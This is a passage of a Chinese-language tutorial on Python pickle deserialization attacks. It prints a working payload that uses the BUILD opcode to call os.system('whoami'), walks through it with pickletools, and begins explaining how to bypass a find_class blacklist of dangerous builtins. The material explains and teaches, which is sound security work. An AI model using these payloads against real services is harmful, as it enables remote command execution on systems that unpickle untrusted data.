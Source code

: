 这一功能,那么`b`操作符理所当然地可以用来进行命令执行.

`b`操作符的使用模板

```
b'c__main__\ns1nk\n)\x81}X\x0C\x00\x00\x00__setstate__cos\nsystem\nsbX\x06\x00\x00\x00whoamib.'
```

用pickletools看一下过程.

```
0: c    GLOBAL     '__main__ s1nk' #引入一个模块
   15: )    EMPTY_TUPLE   #压入一个空元组
   16: \x81 NEWOBJ        #创建一个c引入模块的实例,并以元组作为传入的元素
   17: }    EMPTY_DICT    #压入一个空字典
   18: X    BINUNICODE '__setstate__'  #压入一个字符串"__setstate__”
   35: c    GLOBAL     'os system'     #压入一个os.system模块
   46: s    SETITEM                    #弹出两个元素,分别作为value和key,再取当前栈顶元素为dict,dict[key]=value
   47: b    BUILD                      #实例没有__setstate__属性,那么就把字典的键值对赋给实例
   48: X    BINUNICODE 'whoami'        #压入字符串"whoami”
   59: b    BUILD                      #实例有__setstate__属性,执行了os.system(whoami)
   60: .    STOP
highest protocol among opcodes = 2
c__main__
name
}(S"__setstate__"    # } 压入空dict __setstate__，然后 c push进去我们的 os.system
cos
system
ubS"calc"  # 执行第一次 b ，因为现在并没有 b ，所以执行 __dict__.update，也就是将我们前面的 {"__setstate__":os.system} 压入栈
b.         # 再次执行 b 由于已经有了__setstate__，所以会将栈中字节码 b 的前一个元素当作 state，执行__setstate__(state)，
```

这个payload看似是可行的,但是具体运行时会报错`TypeError: 'mappingproxy' object does not support item assignment`.

在Python中,使用`class.__dict__`调用一个类的属性会返回一个不可变字典(mappingproxy),如果对这个字典进行更新就会报错.那么第一个payload为什么能用呢??

> 所有实例属性都存储在 **dict** 字典中，这就是一个常规的 dict，对于实例属性的维护即是从该字典中获取和修改
>
> 类属性使用的字典是一个 MappingProxyType 对象，它是一个不能 setattr 的字典。这意味着它对开发者是只读的.

也就是说,我们只能修改一个实例的`inst.__dict__`,而不能修改一个类的`class.__dict__`.

重点关注`\x81`这个操作符.这个payload通过`\x81`操作符对`c`引入的`__main__.s1nk`实例化,进而实现了对`__main__.s1nk`一个实例的属性的修改.

### 绕过

#### 重写`find_class()`的

##### 思路一 获取危险函数

Python是一门**面向对象属性很重的**语言.也就是说在Python中几乎一切皆为对象.这也为我们的绕过提供的不小的便利.

比如这样重写

```
import pickle
import io
import builtins

class RestrictedUnpickler(pickle.Unpickler):
    blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}


    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name not in self.blacklist:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))
```